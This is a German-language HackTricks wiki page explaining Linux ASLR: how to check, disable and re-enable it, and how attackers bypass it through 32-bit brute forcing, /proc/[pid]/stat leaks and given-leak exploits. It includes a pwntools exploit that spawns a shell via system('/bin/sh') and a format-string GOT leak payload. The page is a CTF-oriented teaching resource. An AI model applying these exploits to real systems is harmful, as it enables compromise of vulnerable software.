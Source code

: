 # ASLR

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## Grundinformationen

**Address Space Layout Randomization (ASLR)** ist eine Sicherheitstechnik, die in Betriebssystemen verwendet wird, um die **Speicheradressen** zu **randomisieren**, die von System- und Anwendungsprozessen verwendet werden. Dadurch wird es einem Angreifer erheblich erschwert, den Standort bestimmter Prozesse und Daten, wie z. B. den Stack, den Heap und Bibliotheken, vorherzusagen, wodurch bestimmte Arten von Exploits, insbesondere Pufferüberläufe, gemildert werden.

### **Überprüfen des ASLR-Status**

Um den ASLR-Status auf einem Linux-System zu **überprüfen**, können Sie den Wert aus der Datei `/proc/sys/kernel/randomize_va_space` lesen. Der in dieser Datei gespeicherte Wert bestimmt die Art des angewendeten ASLR:

* **0**: Keine Randomisierung. Alles ist statisch.
* **1**: Konservative Randomisierung. Gemeinsame Bibliotheken, Stack, mmap(), VDSO-Seite sind randomisiert.
* **2**: Vollständige Randomisierung. Zusätzlich zu den durch konservative Randomisierung randomisierten Elementen wird der durch `brk()` verwaltete Speicher randomisiert.

Sie können den ASLR-Status mit dem folgenden Befehl überprüfen:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Deaktivieren von ASLR**

Um ASLR zu **deaktivieren**, setzen Sie den Wert von `/proc/sys/kernel/randomize_va_space` auf **0**. Das Deaktivieren von ASLR wird außerhalb von Test- oder Debugging-Szenarien im Allgemeinen nicht empfohlen. So können Sie es deaktivieren:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Sie können ASLR auch für eine Ausführung mit folgendem Befehl deaktivieren:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Aktivieren von ASLR**

Um ASLR zu **aktivieren**, können Sie den Wert **2** in die Datei `/proc/sys/kernel/randomize_va_space` schreiben. Dies erfordert normalerweise Root-Rechte. Die vollständige Randomisierung kann mit dem folgenden Befehl aktiviert werden:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Persistenz über Neustarts hinweg**

Änderungen, die mit den `echo`-Befehlen vorgenommen werden, sind vorübergehend und werden beim Neustart zurückgesetzt. Um die Änderung persistent zu machen, müssen Sie die Datei `/etc/sysctl.conf` bearbeiten und die folgende Zeile hinzufügen oder ändern:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Nach der Bearbeitung von `/etc/sysctl.conf` wenden Sie die Änderungen mit an:
```bash
sudo sysctl -p
```
Dies stellt sicher, dass Ihre ASLR-Einstellungen über Neustarts hinweg bestehen bleiben.

## **Umgehungen**

### 32-Bit-Brute-Forcing

PaX unterteilt den Adressraum des Prozesses in **3 Gruppen**:

* **Code und Daten** (initialisiert und nicht initialisiert): `.text`, `.data` und `.bss` —> **16 Bits** Entropie in der `delta_exec`-Variablen. Diese Variable wird bei jedem Prozess zufällig initialisiert und zu den Anfangsadressen addiert.
* **Speicher**, der von `mmap()` zugewiesen wird, und **gemeinsame Bibliotheken** —> **16 Bits**, genannt `delta_mmap`.
* **Der Stack** —> **24 Bits**, bezeichnet als `delta_stack`. Es verwendet jedoch effektiv **11 Bits** (vom 10. bis zum 20. Byte einschließlich), ausgerichtet auf **16 Bytes** —> Dies ergibt **524.288 mögliche reale Stack-Adressen**.

Die vorherigen Daten gelten für 32-Bit-Systeme, und die reduzierte endgültige Entropie ermöglicht es, ASLR zu umgehen, indem die Ausführung immer wieder wiederholt wird, bis der Exploit erfolgreich abgeschlossen ist.

#### Brute-Force-Ideen:

* Wenn Sie einen großen Überlauf haben, um einen **großen NOP-Sled vor dem Shellcode** zu hosten, könnten Sie einfach Adressen im Stack brute-forcen, bis der Fluss **über einen Teil des NOP-Sled springt**.
* Eine weitere Option dafür, falls der Überlauf nicht so groß ist und der Exploit lokal ausgeführt werden kann, ist es, **den NOP-Sled und den Shellcode in einer Umgebungsvariablen hinzuzufügen**.
* Wenn der Exploit lokal ist, können Sie versuchen, die Basisadresse von libc brute-forcen (nützlich für 32-Bit-Systeme):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Wenn Sie einen Remote-Server angreifen, könnten Sie versuchen, die **Adresse der `libc`-Funktion `usleep`** durch Brute-Force zu ermitteln, indem Sie als Argument 10 übergeben (zum Beispiel). Wenn der **Server irgendwann 10 Sekunden länger für die Antwort benötigt**, haben Sie die Adresse dieser Funktion gefunden.

{% hint style="success" %}
In 64-Bit-Systemen ist die Entropie viel höher und dies ist nicht möglich.
{% endhint %}

### Lokale Informationen (`/proc/[pid]/stat`)

Die Datei **`/proc/[pid]/stat`** eines Prozesses ist immer für jeden lesbar und enthält **interessante** Informationen wie:

* **startcode** & **endcode**: Adressen oberhalb und unterhalb des **TEXT** der Binärdatei
* **startstack**: Die Adresse des Beginns des **Stacks**
* **start\_data** & **end\_data**: Adressen oberhalb und unterhalb, wo sich der **BSS** befindet
* **kstkesp** & **kstkeip**: Aktuelle **ESP**- und **EIP**-Adressen
* **arg\_start** & **arg\_end**: Adressen oberhalb und unterhalb, wo sich die **CLI-Argumente** befinden.
* **env\_start** & **env\_end**: Adressen oberhalb und unterhalb, wo sich die **Umgebungsvariablen** befinden.

Daher, wenn der Angreifer sich auf demselben Computer wie die ausgenutzte Binärdatei befindet und diese Binärdatei nicht mit einem Überlauf von Rohargumenten rechnet, sondern mit einem anderen **Eingang, der nach dem Lesen dieser Datei erstellt werden kann**. Ist es möglich, dass ein Angreifer **einige Adressen aus dieser Datei erhält und von ihnen Offsets für den Exploit konstruiert**.

{% hint style="success" %}
Für weitere Informationen zu dieser Datei überprüfen Sie [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) und suchen Sie nach `/proc/pid/stat`
{% endhint %}

### Einen Leak haben

* **Die Herausforderung besteht darin, einen Leak zu geben**

Wenn Ihnen ein Leak gegeben wird (einfache CTF-Herausforderungen), können Sie Offsets daraus berechnen (angenommen, Sie wissen zum Beispiel die genaue libc-Version, die im System verwendet wird, das Sie ausnutzen). Dieses Beispiel-Exploit stammt aus dem [**Beispiel hier**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (überprüfen Sie diese Seite für weitere Details):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Durch den Missbrauch eines Bufferüberlaufs wäre es möglich, ein **ret2plt** auszunutzen, um eine Adresse einer Funktion aus der libc zu exfiltrieren. Überprüfen Sie:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

Genau wie bei ret2plt, wenn Sie einen arbiträren Lesezugriff über eine Format-Strings-Sicherheitsanfälligkeit haben, ist es möglich, die Adresse einer **libc-Funktion** aus der GOT zu exfiltrieren. Das folgende [**Beispiel stammt von hier**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Du kannst mehr Informationen über Format Strings willkürliches Lesen finden in:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

Versuche, ASLR zu umgehen, indem du Adressen im Stack ausnutzt:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
